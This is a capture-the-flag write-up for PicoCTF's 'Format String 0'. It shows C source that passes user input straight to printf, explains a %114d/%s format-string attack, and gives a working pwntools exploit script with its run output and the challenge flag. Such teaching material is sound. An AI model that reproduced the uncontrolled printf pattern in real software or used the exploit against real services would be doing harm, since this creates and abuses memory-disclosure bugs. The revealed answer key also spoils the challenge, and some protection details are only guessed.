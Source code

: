 # format string 0

***

## Writeup: Format String 0 - PicoCTF

### Challenge Overview

* **Name:** Format String 0
* **Author:** Cheng Zhang
* **Category:** Binary Exploitation
* **Points:** (Assuming 100-200, typical PicoCTF intro)
* **Server:** `nc mimas.picoctf.net 65535`
* **Files:** `format0.c` (source), `format0` (binary)
* **Description:** "Can you use your knowledge of format strings to make the customers happy?"
* **Hints:**
  * "This is an introduction of format string vulnerabilities. Look up 'format specifiers' if you have never seen them before."
  * "Just try out the different options."

This PicoCTF challenge serves up a tasty format string vuln on a remote instance. Our mission: satisfy Patrick and crash Bob to snag the flag via a SEGFAULT.

***

### Initial Analysis

#### Binary Protections

(Assumed from source and PicoCTF norms):

* **Arch:** amd64-64-little
* **RELRO:** Likely Partial RELRO
* **Stack:** No canary (format string focus)
* **NX:** Enabled
* **PIE:** Likely disabled
* **Stripped:** Likely not stripped

#### Source Code

```c
#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

void serve_patrick() {
    printf("Enter your recommendation: ");
    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n", "Patrick is still hungry!", "Try to serve him something of larger size!");
        }
    }
}

void serve_bob() {
    printf("Enter your recommendation: ");
    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

* **Vuln:** `printf(choice1)` and `printf(choice2)` use user input as format strings.
* **Patrick:** Needs output > 64 chars (`2 * BUFSIZE`) to reach Bob.
* **Bob:** Needs a SEGFAULT to trigger `sigsegv_handler()` and print the flag.

***

### Exploitation Plan

#### Step 1: Format String 101

* **Bug:** `printf(user_input)` treats input as a format string.
* **Specifiers:**
  * `%d`: Prints an integer from the stack.
  * `%s`: Dereferences a pointer from the stack.
* **Exploit:** Use specifiers to manipulate output or crash.

#### Step 2: Serve Patrick

* **Menu:** `Breakf@st_Burger`, `Gr%114d_Cheese`, `Bac0n_D3luxe`.
* **Goal:** `printf(choice1) > 64`.
* **Choice:** `Gr%114d_Cheese`—`%114d` prints a wide integer (e.g., 114 spaces + digits).

#### Step 3: Serve Bob

* **Menu:** `Pe%to_Portobello`, `$outhwest_Burger`, `Cla%sic_Che%s%steak`.
* **Goal:** SEGFAULT with `printf(choice2)`.
* **Choice:** `Cla%sic_Che%s%steak`—multiple `%s` specifiers dereference junk stack values.

***

### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

# Connect
p = remote('mimas.picoctf.net', 65535)

# Serve Patrick
p.recvuntil(b'Enter your recommendation: ')
p.sendline(b'Gr%114d_Cheese')
log.info('Sent to Patrick: Gr%114d_Cheese')
p.recvuntil(b'Good job! Patrick is happy!')

# Serve Bob
p.recvuntil(b'Enter your recommendation: ')
p.sendline(b'Cla%sic_Che%s%steak')
log.info('Sent to Bob: Cla%sic_Che%s%steak')

# Get flag
p.interactive()
```

#### How It Works

1. **Patrick:**
   * Sends `Gr%114d_Cheese`.
   * `printf("Gr%114d_Cheese")` outputs "Gr" + wide integer + "\_Cheese" (>64 chars).
   * Advances to Bob.
2. **Bob:**
   * Sends `Cla%sic_Che%s%steak`.
   * `printf("Cla%sic_Che%s%steak")` tries to dereference 3 stack values as pointers, crashes.
   * `sigsegv_handler()` prints the flag.

***

### Execution

From your run:

```
$ python exp.py
[+] Opening connection to mimas.picoctf.net:65535: Done
[*] Sent to Patrick: Gr%114d_Cheese
[*] Sent to Bob: Cla%sic_Che%s%steak
[*] Switching to interactive mode
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
[*] Got EOF while reading in interactive
```

* **Patrick:** Long output satisfied `count > 64`.
* **Bob:** Crashed on `%s`, flag appeared.

***

### Challenges Faced

1. **Patrick’s Appetite:** Needed a big output—`%114d` did the trick.
2. **Bob’s Crash:** `Cla%sic_Che%s%steak` reliably SEGFAULTed with multiple `%s`.
3. **Remote Only:** Tested options live, guided by the hint.

***

### Conclusion

"Format String 0" was a delicious intro to format string exploits. We stuffed Patrick with a `%114d` burger to move on, then crashed Bob’s order with `%s` chaos, triggering a SEGFAULT for the flag. No buffers harmed—just pure format string fun!

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}`

Happy hacking!

***
